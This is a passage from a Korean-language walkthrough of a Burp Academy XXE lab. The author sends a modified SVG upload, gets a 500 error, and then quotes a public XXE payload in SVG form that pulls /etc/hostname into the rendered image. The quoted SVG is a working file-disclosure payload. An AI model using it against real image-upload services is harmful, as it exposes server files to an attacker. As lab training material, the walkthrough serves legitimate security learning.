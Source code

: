 8. 이 것을 SVG 파일의 상단에 추가해서 요청을 보내본다. 

![](/images/burp-academy-xxe-8-3.png)

9. 500 에러가 발생했다. 음.. 

![](/images/burp-academy-xxe-8-4.png)

10. 어쩌면 SVG를 사용해서 XXE 인젝션 공격을 하는 페이로드가 인터넷에 공개되어 있는지도 모른다. 찾아보이 [여기](https://gist.github.com/jakekarnes42/b879f913fd3ae071c11199b9bd7ba3a7?short_path=f3432ae)에 딱 공개되어 있었다. 

외부참조를 통해 조회한 파일의 내용을 Text로 표시해주는 SVG파일의 코드다. 

```xml
 <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
